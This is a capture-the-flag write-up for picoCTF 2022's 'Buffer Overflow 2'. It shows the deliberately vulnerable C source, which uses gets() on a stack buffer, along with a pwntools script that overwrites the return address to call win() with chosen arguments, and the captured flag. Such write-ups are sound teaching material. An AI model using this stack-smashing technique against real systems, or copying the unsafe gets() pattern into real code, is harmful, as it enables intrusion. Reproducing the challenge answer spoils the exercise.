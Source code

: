 # Buffer Overflow 2

Simple buffer overflow, but with argument control.

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

After running a quick `checksec` on the program, we get this:

![image](https://github.com/nyiyui/ctf/blob/main/picoctf-2022/pwn/images/bo2checksec.png)

This means that it's an x32 file, making it very easy to exploit, since x32 uses `cdecl`. After a bit of code writing, this is our final program:

```python
from pwn import *

con = remote("saturn.picoctf.net", 62465)
winb = 0x08049296

payload = ""
payload += "a" * 112
payload += p32(winb)
payload += "CCCC"
payload += p32(0xCAFEF00D)
payload += p32(0xF00DF00D)
con.sendline(payload)
con.interactive()
```

This gets us our flag: `picoCTF{argum3nt5_4_d4yZ_31432deb}`